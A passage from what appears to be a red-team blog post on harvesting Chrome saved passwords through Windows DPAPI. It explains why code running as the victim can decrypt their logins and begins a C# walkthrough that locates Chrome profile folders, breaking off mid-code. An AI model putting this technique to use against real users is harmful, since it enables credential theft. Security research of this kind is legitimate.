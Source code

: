 ![Image](assets/img/browser-credentials/login_data_sqlite.PNG)

The DPAPI was intended to be extremely simple to use, and consists of only two functions: **CryptProtectData()** and **CryptUnprotectData()** which symetrically encrypt/decrypt data "blobs" (arbitrary arrays of bytes) using implicit crypto keys tied to a specific user or system. The upside to DPAPI encrypted credentials is that I don't need to know any of the target user's passwords or keys in order to decrypt their creds if I am already executing code in that user's context. The downside is that some extra work needs to be done in order to decrypt credentials if I don't have code execution in the target user's context. [This awesome blog post](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/) shows Mimikatz "/unprotect"-ing DPAPI encrypted creds using a target user's known password.

### Finding and Extracting Encrypted Logins

By following a few simple steps, I can begin gathering saved credentials for decryption. I'll use snippets of code from HarvestBrowserPasswords below to demonstrate each step.

#### 1. Search the current user's `%LocalAppData%\Google\Chrome` directory for profiles
```cs
public static List<string> FindChromeProfiles()
{
    string localAppData = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);
    string chromeDirectory = localAppData + @"\Google\Chrome\User Data";

    List<string> profileDirectories = new List<string>();

    if (Directory.Exists(chromeDirectory))
    {
        //Add default profile location once existence of chrome directory is confirmed
        profileDirectories.Add(chromeDirectory + "\\Default");
        foreach (string directory in Directory.GetDirectories(chromeDirectory))
        {
            if (directory.Contains("Profile "))
            {
                profileDirectories.Add(directory);
```